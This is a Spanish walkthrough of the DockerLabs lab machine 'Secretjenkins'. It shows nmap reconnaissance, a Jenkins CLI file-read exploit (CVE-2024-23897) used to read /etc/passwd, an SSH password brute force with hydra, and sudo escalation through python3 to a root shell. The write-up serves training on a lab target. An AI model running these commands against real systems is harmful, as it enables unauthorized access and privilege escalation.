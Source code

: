 # Máquina Secretjenkins

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open   ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94fb28597fae02c0564607338cac5285 (ECDSA)
|_  256 43075030bb28b0739b7c0c4e3fc9bf02 (ED25519)
8080/tcp open   http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f6863828-3c2c-4274-927b-ab323dffe3d4)

***

## Explotación

Hay un proyecto en **github** que maneja una vulnerabilidad específica para esta versión de **Jenkins**. Link al exploit -> [Exploit](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Seguimos los pasos, y lo primero de todo es descargarse el **jenkins-cli.jar** para poder explotar un **LFI**:

```
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/766d44d1-f252-40b5-8452-e220c7372428)

Con este archivo ejecutamos el siguiente comando para tratar de leer el **/etc/passwd**:

```shell
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2fe80803-8b96-4ec2-9383-14930637ce4e)

Tenemos el **LFI** y vemos un usuario **pinguinito** y **bobby**. Tras probar con fuerza bruta al **ssh** sobre ambos usuarios, encontramos la contraseña de **bobby**.

```shell
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
```

Estamos dentro !

***

## Escalada de privilegios

```shell
sudo -l
--------------
User bobby may run the following commands on 1e9c73d6dd94:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ejecutar **python** como el user **pinguinito**. Podemos abusar de este con:

```shell
sudo -u pinguinito /usr/bin/python3
-> import os
-> os.system("bash")
whoami
-------------------------------------
pinguinito
```

Volvemos a hacer **sudo -l**:

```shell
sudo -l
-----------------
User pinguinito may run the following commands on 1e9c73d6dd94:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ejecutar un script que hay en **opt** como **root**.

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a28f6928-28e9-43f3-ab5b-cc7f2c4584ae)

```shell
ls -l /opt/script.py
------------------------------------
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
```

Observamos que somos el propietario del script, podemos darle permisos, modificarlo, y ejecutarlo como **root**:

```shell
chmod 744 /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo "import os" > /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo 'os.system("bash")' >> /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ sudo /usr/bin/python3 /opt/script.py
```

!\[\[Pasted image 20240511190820.png]]

```shell
root@1e9c73d6dd94:/opt# whoami
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
